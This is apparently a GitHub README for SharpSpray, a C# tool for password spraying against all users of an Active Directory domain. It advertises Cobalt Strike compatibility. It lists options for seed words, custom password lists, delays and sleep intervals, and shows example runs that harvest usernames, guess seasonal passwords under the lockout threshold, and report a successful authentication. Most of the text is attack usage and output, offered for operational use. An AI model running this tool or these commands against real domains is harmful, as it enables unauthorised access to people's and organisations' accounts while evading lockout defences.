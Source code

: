 # SharpSpray
This project is a C# port of my PowerSpray.ps1 script. SharpSpray a simple code set to perform a password spraying attack against all users of a domain and is compatible with Cobaltstrike.

https://github.com/jnqpblc/Misc-PowerShell/blob/master/PowerSpray.ps1

By default it will automatically generate the UserList from the domain.

By default it will automatically generate the PasswordList using the current date.

Be careful not to lockout any accounts.

```
SharpSpray.exe
      --Seeds [ A comma-separated list of passwords to as a seed to the internal list generator. Eg. Password,Welcome,Company ]
      --Passwords [ A comma-separated list of passwords to use instead of the internal list generator. Eg. Password1,Password19,Company19,Welcome19 ]
      --Delay [ The delay time between guesses in millisecounds. Eg. 300 ]
      --Sleep [ The number of minutes to sleep between password cycles. Eg. 15 ]

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Sleep 15
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 64 passwords.
[*] Starting password spraying operations.
[*] Using the default delay of 1000 milliseonds between attempts.
[*] Using password Winter19
^C

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Seeds Password,Welcome,Company --Sleep 15
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 42 passwords.
[*] Starting password spraying operations.
[*] Using the default delay of 1000 milliseonds between attempts.
[*] Using password Password19
^C

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Passwords ItsNotWinter! --Sleep 15 --Delay 300
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 1 passwords.
[*] Starting password spraying operations.
[*] Using a delay of 300 milliseonds between attempts.
[*] Using password ItsNotWinter!
[+] Successfully authenticated with jnqpblc::ItsNotWinter!
[*] Completed all rounds with password ItsNotWinter!
[*] Now the script will sleep for 15 minutes.
^C
```
